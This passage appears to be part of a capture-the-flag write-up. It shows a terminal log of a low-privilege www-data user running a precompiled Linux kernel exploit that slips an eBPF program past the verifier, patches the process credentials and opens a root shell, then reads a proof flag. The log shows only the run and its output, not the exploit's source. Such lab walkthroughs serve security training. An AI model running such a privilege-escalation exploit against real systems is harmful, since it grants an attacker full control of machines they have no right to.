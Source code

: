 ```bash
www-data@ubuntu:/tmp$ ls
VMwareDnD  exploit  systemd-private-9d0ec51d39d84348b55a590369880f20-systemd-timesyncd.service-Rr8qws  vmware-root
www-data@ubuntu:/tmp$ chmod +x exploit 
www-data@ubuntu:/tmp$ ./exploit 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff8800b9193e00
[*] Leaking sock struct from ffff880035278780
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880035324000
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff880035324000
[*] credentials patched, launching shell...
# whoami
root
# 
```

```
# bash
root@ubuntu:/root# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@ubuntu:/root# whoami
root
root@ubuntu:/root# cat proof.txt 
Sun_CSR_TEAM_TOMATO_JS_0232xx23
root@ubuntu:/root# 
```


